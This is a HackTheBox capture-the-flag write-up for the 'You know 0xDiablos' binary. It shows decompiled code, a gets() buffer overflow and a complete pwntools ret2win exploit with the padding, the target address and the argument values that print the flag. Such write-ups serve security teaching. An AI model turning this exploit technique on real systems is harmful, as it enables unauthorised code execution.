





# You know 0xDiablos (Easy) — HackTheBox Writeup
---

**Task:** I missed my flag

## Initial Recon

First I ran my tool [tio](https://github.com/ml0w6c65766c/tio) to get some basic information about the program.



After that I started the program to see what happens.



The program starts with a simple banner (`You know who are 0xDiablos`) and an input field. When you type something into the input field, it just gets echoed back.

## Source Code Analysis

Since no source code was provided, I tried to disassemble the program in Ghidra. I found 3 interesting functions:

**main:**

```c
undefined4 main(void)
{
  __gid_t __rgid;

  setvbuf(_stdout,(char *)0x0,2,0);
  __rgid = getegid();
  setresgid(__rgid,__rgid,__rgid);
  puts("You know who are 0xDiablos: ");
  vuln();
  return 0;
}
```

**vuln:**

```c
void vuln(void)
{
  char local_bc [180];

  gets(local_bc);
  puts(local_bc);
  return;
}
```

**flag:**

```c
void flag(int param_1,int param_2)
{
  char local_50 [64];
  FILE *local_10;

  local_10 = fopen("flag.txt","r");
  if (local_10 != (FILE *)0x0) {
    fgets(local_50,0x40,local_10);
    if ((param_1 == -0x21524111) && (param_2 == -0x3f212ff3)) {
      printf(local_50);
    }
    return;
  }
  puts("Hurry up and try it on server side.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

In the `flag` function we can see that `param_1` and `param_2` need to match specific values. Ghidra already showed us those values:



## Vulnerability Analysis

In the `vuln` function there is a classic buffer overflow: `gets(local_bc)`. Since `gets` has no size limit, it allows us to overflow the buffer and control the return address.

## Exploitation

First we need the offset from the input buffer to the return address. With `cyclic 230` we can generate a 230-byte non-repeating string. When we paste it into the input field in pwndbg, we can see where the program crashes — EIP will contain part of the pattern. We copy that value and run `cyclic -l <value>` to get the exact offset.



With that offset and the two parameters, we can write a simple pwntools script:

```python
from pwn import *

context.binary = './vuln'

elf = ELF("./vuln")
rop = ROP(elf)

# IP and port here
HOST = ''
PORT =

p = remote(HOST, PORT)

p.recvuntil(b"You know who are 0xDiablos: ")

win  = 0x80491e2       # address of the flag function (pwndbg: p flag)
arg1 = p32(0xdeadbeef) # parameter 1 from Ghidra
arg2 = p32(0xc0ded00d) # parameter 2 from Ghidra

payload = flat(b"A" * 188, win, 0x0, arg1, arg2) # 0x0 is a fake return address

p.send(payload)
p.interactive()
```

Run the script with `python3 exploit.py`.

And we got our flag:


